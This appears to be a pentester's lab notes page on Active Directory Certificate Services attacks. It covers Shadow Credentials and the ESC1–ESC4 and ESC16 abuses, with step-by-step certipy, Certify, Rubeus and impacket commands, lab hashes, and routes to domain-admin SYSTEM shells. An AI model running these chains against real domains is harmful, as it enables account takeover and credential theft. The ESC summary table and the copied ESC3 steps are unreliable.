

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# ADCS

Active Directory Certificate Services (ADCS) is a Windows Server role that provides **certificate-based authentication** and Public Key Infrastructure (PKI) functionality in AD environments. It runs as a service and communicates over TCP `135` and dynamic RPC ports, primarily for certificate issuance and management. If Web Enrollment or related features are enabled, it may also use ports `80` and `443`.


Tools like `certipy` interact with ADCS over these ports, particularly via RPC.


ADCS is like an internal digital ID system for a Windows domain. Instead of printing physical ID cards, it issues digital certificates that users and computers can use to log in, encrypt communications, or sign data. These **certificates are trusted across the domain**, so if an attacker can trick ADCS into giving them a certificate, it's similar to getting a valid employee badge — they can impersonate someone else and gain access.

<figure><figcaption><p>The certificate enrollment process (image taken from <a href="https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf">here</a>).</p></figcaption></figure>

## Shadow Credentials

The Shadow Credentials attack abuses the `msDS-KeyCredentialLink` attribute in AD to add a malicious authentication certificate to an account — typically a service or privileged account. This allows the attacker to **impersonate the target account via certificate-based authentication** (PKINIT), without needing their password or hash.


#### Requirements:

* The attacker **must have** `Write` **access** to the target's `msDS-KeyCredentialLink` attribute.
* ADCS must be configured to allow **certificate-based authentication (PKINIT)**.




`certipy shadow auto` automates the shadow credentials attack by injecting a forged certificate into a target account's `msDS-KeyCredentialLink` attribute. It authenticates with provided credentials, adds the malicious credential, and requests a certificate tied to the target:

```bash
certipy shadow auto -u <user@domain> -p <pass> -account 'ca_svc' -dc-ip <dc-ip>
```

This results in the two files and a hash:

* **`.pfx`** : contains the **certificate and private key** the attacker got from the CA. It can be imported into Windows or used with tools that support PKI authentication to authenticate as the user.
* **`.ccache`**: this is a **Kerberos credential cache** file, generated after using the certificate for PKINIT (certificate-based Kerberos auth). It allows us to **authenticate with Kerberos tickets as that user** without a password or NT hash. Tools like `impacket` or `kinit` can use it to get tickets.
* **NT hash:** this is extracted from memory (via the Key Credential attack), giving us a password-equivalent credentia**l** we can use in typical NTLM-based attacks like Pass-the-Hash or SMB authentication.



[`pyWhisker`](https://github.com/ShutdownRepo/pywhisker?tab=readme-ov-file) manipulates the `msDS-KeyCredentialLink` attribute to gain control over a user or computer object. It leverages Impacket and a Python version of DSInternals, working with [PKINIT tools](https://github.com/dirkjanm/PKINITtools) to enable full exploitation on Unix systems.

#### **Requirements:**

* Domain Functional Level: **Windows Server 2016+**
* At least one **DC running Windows Server 2016+**
* The DC must have a **certificate and private key** (e.g., via AD CS or PKI)
* Attacker must control an account with **write access** to `msDS-KeyCredentialLink`

> ⚠️ Without the DC's cert/key, a `KDC_ERR_PADATA_TYPE_NOSUPP (16)` error will occur during the AS-REQ process.


```bash
pywhisker -d '<domain>' -u '<owned-acc>' -p '<pass>' --target '<target-acc>' --action 'add' --filename <filename>
...
[*] Updating the msDS-KeyCredentialLink attribute of ca_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: ca_svc.pfx
[*] Must be used with password: a3JnpFX9ZuxEXbCrPPxy
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```


Once the values are generated and added, a TGT can be requested ([gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py)) and the NT hash can then be recovered ([getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py)):


```bash
# Request TGT
gettgtpkinit.py -cert-pfx <pfx-file> -pfx-pass <pass> <domain>/<user> <ccache-file>

# Recover NT hash
getnthash.py -key <key> <domain>/<user>
```




## ESC Attacks


The terms **ESC1**, **ESC2**, etc., come from a **threat model and classification system** introduced by SpecterOps. These labels don’t stand for acronyms — **ESC** simply means **ESCalation** — and they’re followed by a number to identify different types of attack paths related to ADCS.


<table><thead><tr><th width="79.6666259765625">Label</th><th width="423.3333740234375">Description</th><th>Key Risk</th></tr></thead><tbody><tr><td><strong>ESC1</strong></td><td>Misconfigured template allows users to request certs for others</td><td>Identity impersonation</td></tr><tr><td><strong>ESC2</strong></td><td>Misconfigured template allows user-supplied Subject Alternative Name (SAN)</td><td>Identity impersonation</td></tr><tr><td><strong>ESC3</strong></td><td>Misconfigured template allows enrollment with client authentication and no manager approval</td><td>Template abuse</td></tr><tr><td><strong>ESC4</strong></td><td>Control over <code>Cert Publisher</code> user lets attacker modify templates</td><td>Template abuse</td></tr><tr><td><strong>ESC16</strong></td><td>Certificate Authority (CA) has Security Extensions disabled, allowing unauthorized certificate issuance</td><td>Identity impersonation</td></tr></tbody></table>


This **ESC4 → ESC1** chain is especially dangerous as it **leverages legitimate ADCS functionality**, making detection difficult. Issued certificates may remain valid for years, providing **long-term persistence** unless explicitly revoked. For an example of this attack chain see [EscapeTwo](https://x7331.gitbook.io/boxes/boxes/easy/escapetwo#privilege-escalation).


The first step in all ESC attacks is to **identify a vulnerable template**:


A NT hash can be also used with the `-hashes <NT-hash>` option.



```bash
# Test for vulnerable templates
$ certipy find -u <user>@<domain> -p <pass> -stdout -vuln
...
    [!] Vulnerabilities
      ESC1  : '<domain>\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
      ESC2  : '<domain>\\Domain Users' can enroll and template can be used for any purpose
      ESC3  : '<domain>\\Domain Users' can enroll and template has Certificate Request Agent EKU set
      ESC4  : User has dangerous permissions.
      ESC16 : Security Extension is disabled.               
```




Enumerate for vulnerable templates using [Certipy](https://github.com/ly4k/Certipy):


```bash
$ certipy find -u <user>@<domain> -p <pass> -stdout -vuln
...
    [!] Vulnerabilities
      ESC1  : '<domain>\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
      ESC2  : '<domain>\\Domain Users' can enroll and template can be used for any purpose
      ESC3  : '<domain>\\Domain Users' can enroll and template has Certificate Request Agent EKU set
      ESC4  : User has dangerous permissions.
      ESC16 : Security Extension is disabled.               
```




Enumerate for vulnerable templates using [Certify](https://github.com/GhostPack/Certify):


```powershell
# Enumerate ADCS information
.\Certify.exe cas

# Enumerate ADCS templates
.\Certify.exe find

# Enumerate vulnerable templates
.\Certify.exe find /vulnerable

# Enumerabe vulnerable templates based on the current user
.\Certify.exe find /vulnerable /currentuser
```




### Identity Hijack (ESC1)


Certipy's [documentation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc1-enrollee-supplied-subject-for-client-authentication) for ESC1.


ESC1 is a certificate template misconfiguration where **low-privileged users can request certificates and specify arbitrary identities in the Subject Alternative Name (SAN) field**. This occurs when the template:

* [x] Has the `Supply in the request` enabled
* [x] Includes the `Client Authentication` EKU
* [x] Grants enrollment rights to broad groups
* [x] Doesn't enforce additional controls such as manager approval or authorized signatures



Request a certificate for the Administrator account:


```bash
certipy req -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn administrator@sequel.htb -target dc01.sequel.htb -target-ip 10.10.11.51
```


Authenticate as the administrator using the PFX file and get the NT hash:


```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.51
Certipy v5.0.2 - by Oliver Lyak (ly4k)
...
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```


Use the NT hash or cache the ticket and get a `SYSTEM` shell with Impacket:

```bash
# Pass-the-Hash 
impacket-psexec administrator@<dc-ip> -hashes :<NT-hash>

# Kerberos authentication
export KRB5CCNAME=administrator.ccache
impacket-psexec administrator@<domain> -k -no-pass
```



Enumerate templates that have the `Supply in the request` field set:

```powershell
.\Certify.exe find /enrolleeSuppliesSubject
```

Request a certificate for the Domain Admin or the Enterprise Admin:


```powershell
# CSR for DA
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator

# CSR for EA (admin of the forest root)
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator
```


Convert PEM to PFX (to be used with Rubeus):


```powershell
openssl\openssl.exe pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc1-EA.pfx
```


Request a TGT for the DA/EA:


```powershell
# Request a TGT for the DA
.\Rubeus.exe asktgt /user:administrator /certificate:c:\ad\tools\esc1-EA.pfx /password:kali /ptt

# Request a TGT for the EA
.\Rubeus.exe asktgt /user:mcorp.local\administrator /dc:mcorp-dc.moneycorp.local /certificate:c:\ad\tools\esc1-EA.pfx /password:kali /ptt
```




### Identity Hijack (ESC2)


Certipy's [documentation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc2-any-purpose-certificate-template) for ESC2.


ESC2 is an ADCS misconfiguration where a certificate template is configured with the `Any Purpose` Enhanced Key Usage (EKU) or no EKU at all, **allowing the certificate to be used for any operation, including acting as an Enrollment Agent**. If low-privileged users have enrollment rights for such a template, they can request a certificate that implicitly grants the ability to request certificates on behalf of other users. Combined with a target template that allows enrollment agent requests (e.g., the default `User` or `Machine` templates), an attacker can use their `Any Purpose` certificate to impersonate a high-privileged user like a `Domain Admin`. This allows privilege escalation through indirect impersonation, exploiting the CA’s implicit trust in the agent capabilities of the attacker’s certificate.



Request an any purpose certificate:


In this step, we use the vulnerable template's name.



```bash
certipy req -ca <ca-name> -dc-ip <dc-ip> -u <user>@<domain> -p <pass> -template <vulnerable-to-ESC2-template-name> -target <domain-fqdn>
```




Request a certificate on behalf of the `Domain Admin`:


In this step, we can use a built-in template, such as `USER`, that allows certificate enrollment for regular users.



```bash
certipy req -ca SHIELD-DC4-CA -dc-ip <dc-ip> -u <user>@<domain> -p <pass> -template <template-name> -target <domain-fqdn> -on-behalf-of '<domain>\administrator' -pfx <pfx-file>
```




Get the TGT and/or NT hash:

```bash
certipy auth -pfx administrator.pfx
```



Get a `SYSTEM` shell:

```bash
impacket-smbexec administrator@<domain-fqdn> -hashes :<NT-hash>
```

or use the TGT:

```bash
$ export KRB5CCNAME=administrator.ccache
$ impacket-psexec administrator@<domain-fqdn> -k -no-pass
```



### Template Abuse (ESC3)


Certipy's [documentation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc3-enrollment-agent-certificate-template) for ESC3.



ESC2 vs ESC3

* **ESC2**: Template allows **any purpose** usage + lacks protections (like no approval or manager check)
* **ESC3**: Template has **Certificate Request Agent** EKU and lacks approval


ESC3 is a vulnerability where a misconfigured certificate template allows users to obtain Enrollment Agent certificates, which can be used to **request certificates on behalf of other users**. If the attacker can enroll for such a certificate—either directly or via an `Any Purpose` template (ESC2)—and a second template allows agent-based enrollment (often the case with default templates like `User` or `Machine`), the attacker can impersonate privileged users like `Domain Admins` by obtaining certificates in their name, leading to privilege escalation.



Request an any purpose certificate:


In this step, we use the vulnerable template's name.



```bash
certipy req -ca <ca-name> -dc-ip <dc-ip> -u <user>@<domain> -p <pass> -template <vulnerable-to-ESC2-template-name> -target <domain-fqdn>
```




Request a certificate on behalf of the `Domain Admin`:


In this step, we can use a built-in template, such as `USER`, that allows certificate enrollment for regular users.



```bash
certipy req -ca SHIELD-DC4-CA -dc-ip <dc-ip> -u <user>@<domain> -p <pass> -template <template-name> -target <domain-fqdn> -on-behalf-of '<domain>\administrator' -pfx <pfx-file>
```




Get the TGT and/or NT hash:

```bash
certipy auth -pfx administrator.pfx
```



Gain a `SYSTEM` shell:

```bash
impacket-smbexec administrator@<domain-fqdn> -hashes :<NT-hash>
```

or use the TGT:

```bash
$ export KRB5CCNAME=administrator.ccache
$ impacket-psexec administrator@<domain-fqdn> -k -no-pass
```



### Template Abuse (ESC4)


Certipy's [documentation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc4-template-hijacking) for ESC4.


ESC4 is a misconfiguration where **unintended AD principals can edit a template's sensitive security settings**.


In CTF labs the attack chain can look like this:

1. Account take over of `ca_svc` (member of the `Cert Publishers` group)
2. The `Cert Publishers` group is misconfigured with `WriteAccess` over a template
3. Template modification that makes it vulnerable to ESC1



```bash
# Make the template vulnerable to ESC1
$ certipy template -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -write-default-configuration
...
[*] Successfully updated 'DunderMifflinAuthentication'
```


### Identity Hijack (ESC16)


Certipy's [documentation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally) for ESC16.


ESC16 occurs when a **CA is misconfigured to exclude a critical SID extension from all issued certificates**. This weakens certificate-based authentication by **forcing DCs to fall back on insecure mappings like UPN or DNS names**. If the domain isn't in full enforcement mode, attackers can impersonate privileged users by abusing certificate templates — even without strong SID bindings. This can happen either due to a registry setting or because the CA is unpatched (missing the May 2022 security update). ESC16 can also be combined with ESC6 to fully bypass SID validation, even in stricter environments.



Read initial UPN of the victim account for restoration purposes:


```bash
$ uv run certipy account -u <user> -p <pass> -dc-ip <dc-ip> -user 'ca_svc' read
...
   userPrincipalName                   : ca_svc@fluffy.htb
```




Update the victim account's UPN to the target 's `sAMAccountName`:


```bash
$ uv run certipy account -u <user> -p <pass> -dc-ip <dc-ip> -upn 'administrator' -user 'ca_svc' update
...
[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```




Obtain credentials for the "victim" account (e.g., via Shadow Credentials):


```bash
$ uv run certipy shadow auto -u p.agila@fluffy.htb -p prometheusx-303 -dc-ip 10.10.11.69 -account 'ca_svc'
...
[*] Wrote credential cache to 'ca_svc.ccache' # TGT
[*] NT hash for 'ca_svc': ca0...8c8 # NT hash
```




Request a certificate as the "victim" user from any suitable client authentication template (e.g., "User") on the ESC16-vulnerable CA:


* `-target`: The **DNS hostname** of the server running the CA.
* `-ca`: The **CA name**, usually in the format `<domain>-<hostname>-CA`.



```bash
# Export the TGT
$ export KRB5CCNAME=victim.ccache

$ uv run certipy req -k -dc-ip <dc-ip> -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
...
[*] Wrote certificate and private key to 'administrator.pfx'
```




Revert the "victim" account's UPN:


```bash
$ uv run certipy account -u <user> -p <pass> -dc-ip <dc-ip> -upn '<upn>' -user 'ca_svc' update
...
[*] Updating user 'ca_svc':
    userPrincipalName                   : cva_svc@fluffy.htb
[*] Successfully updated 'ca_svc'
```




Authenticate as the target administrator:


```bash
$ uv run certipy auth -dc-ip <dc-ip> -pfx administrator.pfx -username 'administrator' -domain 'fluffy.htb'
...
[*] Wrote credential cache to 'administrator.ccache' # TGT
[*] Got hash for 'administrator@fluffy.htb': aad...a6e # NTLM hash
```




## Resources

* SpecterOps Certified Pre-Owned (2021) whitepaper ([article](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf))
* RBT's short articles and video walkthrough about the ESCs attacks ([ESC1](https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc1/), [ESC2](https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc2/), [ESC3](https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc3/), [ESC4](https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc4/))
